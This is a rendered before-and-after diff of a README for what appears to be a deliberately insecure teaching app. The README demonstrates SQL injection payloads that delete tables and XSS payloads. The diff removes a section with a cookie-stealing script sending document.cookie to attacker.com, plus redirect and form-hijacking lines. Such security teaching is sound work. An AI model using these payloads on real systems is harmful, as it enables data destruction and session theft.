

Before and after one commit to 100adim/computer-security-Unsecured, a Markdown page: README.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -185,7 +185,7 @@ cursor.executescript(f"""
 
 #### **Attack Payload:**
 ```sql
-Username: test'; DROP TABLE mainapp_user; --
+Username: test-sqli','','','');DELETE FROM mainapp_customer;--
 Email: test@test.com
 Password: anything123
 ```
@@ -196,7 +196,7 @@ Password: anything123
 INSERT INTO mainapp_user (...) VALUES ('test', 'test@test.com', 'hash', 'salt');
 
 -- Malicious query:
-INSERT INTO mainapp_user (...) VALUES ('test'; DROP TABLE mainapp_user; --', 'test@test.com', 'hash', 'salt');
+INSERT INTO mainapp_user (...) VALUES ('test-sqli','','','');DELETE FROM mainapp_customer;--', 'test@test.com', 'hash', 'salt');
 
 -- Result: User created, then entire user table deleted!
 ```
@@ -249,7 +249,7 @@ INSERT INTO mainapp_customer (...) VALUES ('John'); INSERT INTO mainapp_user VAL
 
 #### **Attack Payload:**
 ```html
-First Name: <script>alert('XSS Attack - Customer List Compromised!');</script>
+First Name: <script> alert("XSS") </script>
 Last Name: Victim
 ID: 999999999
 ```
@@ -279,25 +279,6 @@ First Name: <img src="x" onerror="alert('Dashboard Hacked!');">
 #### **What Happens:**
 1. Script executes immediately on dashboard after customer creation
 2. **Immediate impact** on the user who created the customer
-
----
-
-### **🎯 Advanced XSS Payloads**
-
-#### **Cookie Stealing:**
-```html
-<script>fetch('http://attacker.com/steal?data=' + document.cookie);</script>
-```
-
-#### **Page Redirection:**
-```html
-<script>window.location = 'http://malicious-site.com';</script>
-```
-
-#### **Form Hijacking:**
-```html
-<script>document.forms[0].action = 'http://attacker.com/steal';</script>
-```
 
 ---
 
````
